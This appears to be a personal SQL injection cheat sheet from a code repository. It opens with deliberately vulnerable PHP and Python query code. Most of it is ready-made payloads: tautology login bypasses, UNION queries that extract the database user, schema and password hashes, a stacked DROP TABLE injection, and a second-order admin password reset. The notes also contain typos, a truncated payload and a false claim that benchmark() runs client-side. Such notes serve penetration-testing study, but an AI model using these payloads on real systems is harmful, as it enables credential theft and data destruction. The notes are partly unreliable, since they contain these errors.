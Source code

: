 # SQLi

Can be used when improper input sanitization exsists

- User input is not correctly filtered for string literal or escape characters
- User input is not having the correct type.

---

Example of a SQL statement (not recommended methods!!!):
php:
```php
$sql = "SELECT * FROM users WHERE id = $id"
```
python:
```python
cmd = "update users set name = '%s' where id = '%s'" (name, id)
```

---

comment
```sql 
-- = comment
```
Can seperate commands with
```sql
;
```

First attemt to try (show everything in the table):
```sql
'or '1'='1
```
or (% is wildcard):
```sql
%'or '1'='1
```
Check for True:
```sql
1 = 1
```
Check for False:
```sql
1 = 2
```
Get username for the table:
```sql
%' or 0 = 0 union select null, user() --
```
Database name:
```sql
%’ or 0 = 0 union select null, database() --
```
Database version:
```sql
%’ or 0 = 0 union select null, version() --
```
Table names and column names:
```sql
%' union select table_name, column_name from information_schema.columns where table_schema = '<DATABASE_NAME>' --
```
Table names:
```sql
%' and 1=0 union select null, table_name from information_schema
```
username and password hash from users table:
```sql
%' UNION SELECT user, password from users 
```

Modify:
```sql
insert
update
```

## Blind SQLi
Time:
Can use time to figure out what is going on:
```sql
benchmark(count,expr)
```
Banchmark do the expr as many time as the count size. Benchmark is performed on the client end not on the server end. Example:
```sql
benchmark(10,MD5('This is a test'))
```
Use the MD5:
```sql
SELECT MD5('Test_string')
```
Example; drop table:
```sql
a';DROP TABLE users; SELECT * FROM data WHERE 't' = 't
```

## Second order SQLi
Insert something that can be used later
Insert a new user and then update the password.
```sql
alice '' OR username = ''admin

UPDATE users set password = 'newpass' WHERE username = 'alice' OR username = 'admin'
```

## SQLi with PHP

mysql_real_escape_string() can be circumvented with using no ' in the queries. The variables in PHP cannot have quotes before and after it, to get this to work.

unhex() can be used to convert characters
```php
unhex(23) = #
unhex(27) = '
unhex(28) = (
unhex(29) = )
unhex(2a) = *
```

One example on bypassing a password field in php:
```php
<?php
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "SELECT uid FROM users WHERE name = '$user' AND pass = MD5('$pass')";
?>
```
```sql
' OR 1 OR '' = '
```
Becomes:
```sql
SELECT uid from users WHERE name = '' OR 1 OR '' = '' AND pass = MD5('pass')
```
This would make you the first user in the table. Most likly the admin.

# Definition:
In-band SQLi
- Using the same channel to send a SLQi and recive the result
- Usualy Error based or Union based

Inferential SQLi (Blind)
- No result in browser
- Two types:
    - Boolean-based
    - Time-based

Out-of-band SQLi
- Features need to be enabled in the database
- Attacke cannot send and recive using the same channel.
